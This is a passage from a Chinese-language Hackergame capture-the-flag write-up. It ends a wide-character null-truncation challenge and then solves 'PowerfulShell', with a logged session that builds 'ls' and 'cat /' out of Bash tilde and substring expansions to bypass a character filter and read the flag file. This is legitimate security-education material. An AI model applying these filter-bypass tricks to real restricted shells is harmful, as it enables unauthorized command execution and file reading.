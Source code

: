 得到「㩚瑜敨汦条」，但我们需要用 `\0` 来截断后面添加的 `you_cant_get_the_flag`。所以我们可以随便找个以 `00` 结尾的四位数字符，比如说 `'\u5000'`。我们就可以得到答案「㩚瑜敨汦条倀」。

- `flag{wider_char_isnt_so_great_??????????}`

## PowerfulShell

我们首先看看还剩下什么字符可以用，把键盘上看到的字符都打出来，然后删掉不能用的。我们得到以下字符

```
`, [], {}, _, -, $, 1-9, :, =, +, ~
```

然后去看 Bash 教程，把能用的语法都记一记。

- https://wangdoc.com/bash/expansion#%E6%B3%A2%E6%B5%AA%E7%BA%BF%E6%89%A9%E5%B1%95
  - `~`: HOME 目录
  - `~+` 当前目录（其实和 HOME 目录一样的）
- https://wangdoc.com/bash/string#%E5%AD%90%E5%AD%97%E7%AC%A6%E4%B8%B2
  - `${varname:offset:length}`：提取子串，但需要注意的是：只能使用 varname，而不是表达式。因此我们需要把表达式的值存下来。

不能使用字母，那我们如何起一个变量名呢？`_123456789` 是可用的，也是合法的 varname。

这题我特意把做题的日志存下来了，直接看日志吧。

```bash
PowerfulShell@hackergame> _1=~+                        // _1=/players
PowerfulShell@hackergame> _2=${_1:2:1}                 // _2=l
PowerfulShell@hackergame> _3=${_1:7:1}                 // _3=s
PowerfulShell@hackergame> $_2$_3                       // ls
PowerfulShell.sh
PowerfulShell@hackergame> _4=$[1-1]                    // _4=0
PowerfulShell@hackergame> $_2$_3 ${_1:_4:1}            // ls /
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
players
proc
root
run
sbin
srv
sys
tmp
usr
var

PowerfulShell@hackergame> _5=`$_2$_3 ${_1:_4:1}`       // _5=`ls /` (也就是刚刚的结果)
PowerfulShell@hackergame> _6=${_5:15:1}                // _6=c
PowerfulShell@hackergame> _7=${_5:19:1}                // _7=a
PowerfulShell@hackergame> _8=${_5:7:1}                 // _8=t
PowerfulShell@hackergame> $_6$_7$_8 ${_1:_4:1}${_5:17} // cat /
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_??????????}
cat: home: No such file or directory
cat: lib: No such file or directory
cat: lib32: No such file or directory
cat: lib64: No such file or directory
```